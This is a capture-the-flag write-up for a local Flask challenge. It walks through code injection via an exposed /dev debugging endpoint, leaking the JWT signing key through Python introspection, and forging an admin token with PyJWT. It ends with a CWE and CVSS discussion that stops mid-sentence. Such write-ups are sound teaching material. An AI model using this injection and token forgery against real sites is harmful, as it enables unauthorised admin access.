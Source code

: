 # The Problem

> Our team enlisted the intern to make their new website! 
> He even added some nice in-house development debugging tools!

# Enumeration

First, we enumerate directories on the ip.

![Enumeration result](./report/enumeration.png)

In the output, we can see notably a `/login` directory and a `/dev` directory.
This can indicate accounts in the system and a development environment left open in production.

# Exploitation

We follow the `/dev` directory, since it seems to be a remnant of the development environment.

![/dev page](report/dev.png)

Also noteworthy, there seems to be some python code, so, there is a code injection point!

Trying to find out the environment, we pass `dir()` to the `/exec`'s `method` field.
This yields the following: `['_ep', 'endpoint', 'self']`

To find out more, let's see what properties does `self` have with `dir(self)`: `['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'load_controllers', 'load_routes', 'routes', 'tk_factory']`

We see a `tk_factory`, which must be the provider of tokens. Let's see what are its properties with `dir(self.tk_factory)`: `['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'generate_token', 'key', 'token_verify']`

Here we seem to be able to manipulate and see all the logic!
Let's get the key that generates the tokens with `self.tk_factory.key`: `708a313dbad5ed23442c63a47aef74444cf8cf1f55526ddb6d240008b7021847338fe56c6b0a259aae297367b98612eb84d7`.

Note that this value can change from session to session.

Now we need a token. For that, we go to the `/register` page in order to register an account.

![/register page](report/register.png)

And we get the token in the url: `https://127.0.0.1:5000/flagpage?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJhZG1pbiI6ZmFsc2V9.zXVLUvyoTUX7zjdz3Zf9-Nij4CnKKa6s04bItkJQMjI`

In order to decrypt it, we can run the following code:

```py
import jwt

secret_key = "<key>"
token = "<token>"

decoded_token = jwt.decode(token, secret_key, algorithms=["HS256"])
print(decoded_token)
```

which returns the following json:

```json
{
  "username": "a", 
  "admin": false
}
```

Now, we can try setting `admin` to `true`. To do this, we run the following code:

```py
encoded_token = jwt.encode(
    {
        'username': 'a',
        'admin': True
    },
    key=secret_key,
    algorithm='HS256'
)

print(encoded_token)
```

which returns `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJhZG1pbiI6dHJ1ZX0.DLqzMzKiXw7XO0pysKdi73ktVulsWZByivQlUuWDNEo`

By replacing this for the token in the url we get the flag!

![Flag](report/flag.png)

# CWEs and CVSS

Mainly this challenge was designed arround [CWE-1057: Data Access Operations Outside of Expected Data Manager Component](https://cwe.mitre.org/data/definitions/1057.html).
The issue here could have been solved if the token management code was designed to better encapsulate it's security key.

There are other issues that, when chained with this one, create an exploitable system.
If the application was not running in development mode ([CWE-489: Active Debug Code](https://cwe.mitre.org/data/definitions/489.html)) 
the remote code execution would not be possible.
If the token system was more secure ([CWE-1294: Insecure Security Identifier Mechanism](https://cwe.mitre.org/data/definitions/1294.html))
the remote code execution to gather token generation information would be at least harder.

The proposed CVSSv3 score is 10, from [the calculator by NIST](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator)

Although scope does not change in this code, if there would be any sort of admin area (as would be expected in production code),
scope would change.
This reasoning is also aplied to the Scope metric.

Integrity and availability are compromised in the `/dev` endpoint.

Although the person deploying this code has to run it in development mode, we decided not to count that as user interaction,
given it is not actually an exploited user and for Flask running in development mode is the default option.

Availability is assumed to be 

![CVSS calculation](report/cvss.png)
